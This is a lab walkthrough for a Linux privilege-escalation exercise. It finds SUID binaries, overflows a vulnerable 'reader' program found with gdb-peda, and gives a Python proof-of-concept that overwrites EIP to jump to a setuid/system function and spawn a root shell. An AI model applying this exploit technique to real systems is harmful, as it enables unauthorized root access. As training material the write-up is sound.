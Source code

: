 ## Task 1: Connect to the compromised machine and identify interesting binaries

Using bash or any other scripting language, you might want to examine the file system in order to quickly locate interesting binaries. Be reminded that vulnerable SUID binaries can result in privilege escalation.

## Task 2: Examine the interesting binary

Examine the interesting binary. Try to experiment with the data it processes. Can you overflow the buffer?

## Task 3: Find the proper offset to achieve a precise EIP overwrite

Find the proper payload length to achieve a precise EIP overwrite. Gdb-peda's **pattern create** and **pattern offset** commands can help you with that.

## Task 4: Find a reusable function

Inspect the binary using the debugger to find a function that might help you achieve a root shell. Gdb-peda's **info functions** would be a good start.

## Task 5: Spawn a root shell

Reuse the identified function that can provide you with a system shell. This time, try to keep the stdin stream open in order to execute some commands as root.

-------------------------------------------
# Lab part
To find interesting binary, use below command:

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/reader <== seem good
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/sbin/pppd
/bin/mount
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/ping6
/home/xdev/Desktop/reader <== seem good
```

Let's checkout the directory to see what happend:
```bash
ls -la /home/xdev/Desktop/
total 20
drwxr-xr-x  2 xdev xdev 4096 Aug 16  2019 .
drwxr-xr-x 18 xdev xdev 4096 Aug 16  2019 ..
-rwsr-xr-x  1 root root 7580 Aug 15  2019 reader
-r--------  1 root root  419 Aug 15  2019 reader.c
```
we got `reader.c` with no permission, and reader can run on user mode. Now on, We gonna try to overflow the reader to get size and overflow `EIP`:
```bash
$python -c "print('A'*1100)" | ./reader
Provide root password:
 Sorry, this is not correct.
Segmentation fault (core dumped)
```
Open gdb-peda and create pattern size 1100 to `1.txt`
![image1.png](image1.png)

![image2.png](image2.png)

We know the offset is `0x41426e41` which is the return address of `EIP`. User pattern offset feature of peda to get the exact size.

```powershell
gdb-peda$ pattern offset 0x41426e41
1094872641 found at offset: 1012
```

![image3.png](image3.png)

In here, the code successfully override the `EIP` with `0x42424242` which mean `BBBB`. Now, try to find the address which can use to exploit. Run `info functions` to get function's information

![image4.png](image4.png)

We can see in red zone have 4 functions, `0x080484cb strcpy` looks interesting, disassembly it and see what do we got 

```powershell
gdb-peda$ disas 0x080484cb
Dump of assembler code for function srtcpy:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x0
   0x080484d6 <+11>:    call   0x80483b0 <setuid@plt>
   0x080484db <+16>:    add    esp,0x10
   0x080484de <+19>:    sub    esp,0xc
   0x080484e1 <+22>:    push   0x8048600
   0x080484e6 <+27>:    call   0x8048390 <system@plt>
   0x080484eb <+32>:    add    esp,0x10
   0x080484ee <+35>:    mov    eax,0x0
   0x080484f3 <+40>:    leave
   0x080484f4 <+41>:    ret
End of assembler dump.
```

In here, we can see there is an instruction pushing `0x8048600`  into stack, determine what it is.

```powershell
gdb-peda$ x/s 0x8048600
0x8048600:      "/bin", '/' <repeats 37 times>, "sh -p"
```

As you can see, in this have call the sh process, we might use this function strcpy `0x080484cb` to make the poc.
```bash
python -c "print('A'*1012+'\xcb\x84\x04\x08')" > 1.txt
```

We can see in gdb debugger, there are 2 process created after call the that address. Which mean we return address successfully.

![image5.png](image5.png)

- PoC

```bash
(python -c "print('A'*1012+'\xcb\x84\x04\x08'*4)" ; cat) | reader
```

![image6.png](image6.png)
